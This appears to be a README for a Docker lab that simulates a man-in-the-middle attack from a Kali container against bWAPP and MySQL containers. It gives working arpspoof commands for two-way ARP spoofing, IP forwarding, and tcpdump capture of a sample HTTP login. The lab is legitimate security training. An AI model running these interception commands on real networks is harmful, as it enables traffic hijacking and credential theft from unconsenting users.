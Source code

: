 
---

### ✅ Objective

Simulate a **MitM attack** — for example, **ARP spoofing**, **HTTP sniffing**, or **DNS spoofing** — from the **Kali** container targeting traffic between `bwa` and `mysql`, or between `victim` and others.

---



## Why Use Docker for MITM Simulations?

Docker provides an ideal environment for simulating man-in-the-middle (MITM) attacks because it allows you to quickly create isolated, reproducible, and controlled network setups. By running multiple containers connected to a private Docker network, you can mimic real-world network interactions safely without risking your host system. Docker’s ability to assign static IPs and isolate network traffic makes it perfect for practicing ARP spoofing, HTTP sniffing, and other MITM techniques in a contained lab environment.

```pgsql
+-------------------------+      +--------------------+       +---------------------+
|       victim (172.28.0.30)      | <--> |      kali (172.28.0.20)  | <--> |       bwa (172.28.0.10)       |
|    Debian container            |      | Kali Linux container |       |  bWAPP app container          |
+-------------------------+      +--------------------+       +---------------------+
                                             |
                                             |
                                    +-------------------+
                                    |  mysql (172.28.0.5)  |
                                    |  MySQL DB container  |
                                    +-------------------+

- All containers connected via the 'mitm-net' Docker bridge network (subnet 172.28.0.0/24)
- Kali acts as MITM between victim and bwa/mysql
- Kali performs ARP spoofing to intercept traffic between victim and bwa/mysql




```
## 🛠️ Step-by-Step Guide

### 1. ✅ Start the Environment

Run the following in the same directory as your `docker-compose.yml`:

```bash
docker-compose up -d
```
![image](screen7.png)

![image](screen6.png)
---

### 2. ✅ Enter the Kali Container

```bash
docker exec -it kali bash
```



```bash
apt update
apt install -y dsniff tcpdump iproute2 iputils-ping net-tools
```

---

### 3. ✅ Enable IP Forwarding

Inside Kali:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



---

### 4. ✅ Perform ARP Spoofing


In Kali:

```bash
arpspoof -i eth0 -t 172.28.0.10 172.28.0.5
```
![image](screen1.png)
In another Kali terminal (or tmux pane):

```bash
arpspoof -i eth0 -t 172.28.0.5 172.28.0.10
```
![image](screen2.png)
Now you’re acting as the man in the middle.

---
### 5. ✅ RUn curl from the victim 

```bash

curl -d "login=bee&password=bug&security_level=0&form=submit" http://172.28.0.10/login.php    
```



### 6. ✅ Sniff the Traffic

Still in Kali, use `tcpdump` to monitor traffic:

```bash
tcpdump -i eth0 -A port 80        # HTTP traffic from bWAPP
```
![image](sceen5.png)


---

